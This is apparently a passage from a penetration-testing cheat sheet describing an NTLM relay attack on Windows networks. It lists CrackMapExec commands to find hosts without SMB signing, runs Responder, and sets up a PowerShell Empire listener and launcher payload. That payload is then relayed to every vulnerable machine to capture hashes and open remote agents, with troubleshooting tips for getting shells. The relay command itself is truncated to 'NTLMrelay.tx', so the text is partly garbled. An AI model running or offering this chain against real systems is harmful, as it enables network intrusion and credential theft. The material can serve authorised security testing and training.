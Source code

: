 - `cme smb <CIDR> --gen-relay-list targets.txt` where the CIDR is your domain subnet. This generates a list where SMB-signing is disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one.


#### Responder

- `Responder -I eth0 -wrf` where eth0 is your interface



https://byt3bl33d3r.github.io/practical-guide-to-NTLM-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html

#### Empire

Now getting into Empire should take an hour or so to have it all memorized. A short guide can be found here, but I have a few commands listed below.
https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay
- NTLMrelay.tx


Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

#### Back to Empire

Now I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

- Trigger a few requests from the Windows machines using the `\\share\` trick.
- Restart all the tools.
- Reset Empire's database.
- Reboot the Windows machines.
- Execute the payload from cmd inside a Windows computer to check if it's actually working. (You should get an agent instantly).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire  agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

